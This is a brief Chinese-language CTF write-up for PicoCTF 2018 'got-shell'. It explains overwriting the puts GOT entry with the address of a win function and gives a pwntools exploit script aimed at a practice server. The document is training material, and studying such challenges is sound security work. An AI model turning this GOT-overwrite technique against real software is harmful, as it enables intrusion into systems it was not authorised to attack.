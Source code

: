 改写got表中内容，还算是第一次见吧

IDA找到`got['puts]`表项的地址为`0x804a00c`（不是got表中的内容）。所以我们只需要把`0x804a00c`地址处的值改为`win`函数的地址就行，这样在之后执行`puts`函数的时候就相当于执行`win`了。


```python
from pwn import *

context.os = 'linux'
context.arch = 'i386'
context.log_level = 'debug'

io = remote('node4.buuoj.cn', 25477)

e = ELF('./PicoCTF_2018_got-shell')
binsh_str = 0x80486f0
win_addr = 0x804854b

e_got_puts_addr = 0x804a00c
payload1 = hex(e_got_puts_addr).encode()
io.sendlineafter(b'4 byte value?\n', payload1[2:])

payload2 = hex(win_addr).encode()
io.sendlineafter(payload1[2:]+b'\n', payload2[2:])
io.interactive()
```
